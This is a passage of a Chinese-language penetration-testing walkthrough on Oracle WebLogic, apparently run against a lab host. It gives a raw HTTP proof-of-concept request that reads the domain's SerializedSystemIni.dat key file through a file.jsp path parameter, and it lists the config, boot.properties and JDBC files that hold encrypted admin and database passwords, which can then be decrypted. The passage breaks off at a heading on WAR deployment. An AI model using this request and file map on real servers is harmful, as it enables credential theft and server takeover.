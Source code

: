 ①任意文件读取

weblogic密码使用AES（老版本3DES）加密，对称加密可解密，只需要找到用户的密文与加密时的密钥即可。这两个文件均位于base_domain下，名为SerializedSystemIni.dat和config.xml，在本环境中为./security/SerializedSystemIni.dat和./config/config.xml（基于当前目录/root/Oracle/Middleware/user_projects/domains/base_domain）

```
POC：
GET /hello/file.jsp?path=security/SerializedSystemIni.dat HTTP/1.1
Host: 192.168.2.66:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.2.66:7001/console/login/LoginForm.jsp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ADMINCONSOLESESSION=yRjrkPJPJxb1vQ81c2dxkyGhxNJW1hW2Xpdbc2yy45290T911Gjx!1637882379
Connection: close


```

密钥配置文件：

```
/root/Oracle/Middleware/user_projects/domains/base_domain/security/SerializedSystemIni.dat
```

存放加密密码的文件：

```
/root/Oracle/Middleware/user_projects/domains/base_domain/config/config.xml
/root/Oracle/Middleware/user_projects/domains/base_domain/security/boot.properties
```

![](/zj_img/WEBRESOURCEfa135f8989100d35f20615e4d7bf5e8d截图.png)

**坑点：**

![](/zj_img/WEBRESOURCEe0424f6de8ebf3d6b29a7f505a08bba0截图.png)

同时，使用sxf解密工具也可进行解密：

![](/zj_img/WEBRESOURCEf635276c4a02e8a78b4439e8873a3def截图.png)

②数据库密码获取

数据库文件

```
/root/Oracle/Middleware/user_projects/domains/base_domain/config/jdbc/tide-jdbc.xml
/root/Oracle/Middleware/user_projects/domains/base_domain/security/boot.properties
```

同时还有多种解密方式，jsp类的

## 8、后台war包部署

